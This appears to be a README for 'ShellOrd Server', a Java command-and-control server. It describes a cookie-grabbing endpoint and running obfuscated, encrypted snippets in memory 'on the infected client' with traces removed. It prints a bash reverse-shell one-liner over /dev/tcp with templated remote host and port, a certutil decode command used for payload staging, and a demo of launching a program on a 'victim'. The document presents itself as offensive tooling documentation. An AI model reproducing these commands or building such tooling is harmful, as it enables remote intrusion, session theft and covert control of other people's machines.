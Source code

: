 🐚 ShellOrd Server Cross-Platform written in Java

- Plugins: A collection of plugins. (.jar or .py). 

## Requirements

- Python plugins requires Jython Standalone 2.7.2.
- ShellOrd Server requires Java 17+.
- Import Certificates in format PKCS12 (.p12) to enable SSL or HTTPS.

## Web server - Login

![shellord-login](../_img/shellord-login.gif)

### Bypass localhost + capture requests

https://shellord.mibaltoalex.com:60443

shellord.mibaltoalex.com => 127.0.0.1

### Grabber requests (GET / POST)

https://shellord.mibaltoalex.com:60443/grabber/info?cookie=captured

`2022-03-12 11:08:20.842 SHELLORD::grabber: Request captured: 'Host: 127.0.0.1 ; GET /info?cookie=captured'`

## Snippets

All snippets are packed, compressed and encrypted in `.mar` (MAR; MIBALTOALEX ARchive) files.
A snippet can contain URIs, binary code, scripts (bash, powershell, etc) and plain text (.c, .py, .java, .rs, .sh, .rb, .bat, .txt, ...).

Allows you to run any obfuscated snippet on the infected client. You can also run any obfuscated snippet from memory to the client in paranoid mode and remove traces.

Example to use parameters in snippets: 
```bash
# bash
bash -c 'exec bash -i &>/dev/tcp/~[[rhost]]/~[[rport]] <&1'
```
```powershell
# powershell
certutil -decode ~[[file_input]] ~[[file_output]]
```

### Example

Example launch calculator on victim (Windows)

![shellord-calc](../_img/shellord_calc.gif)

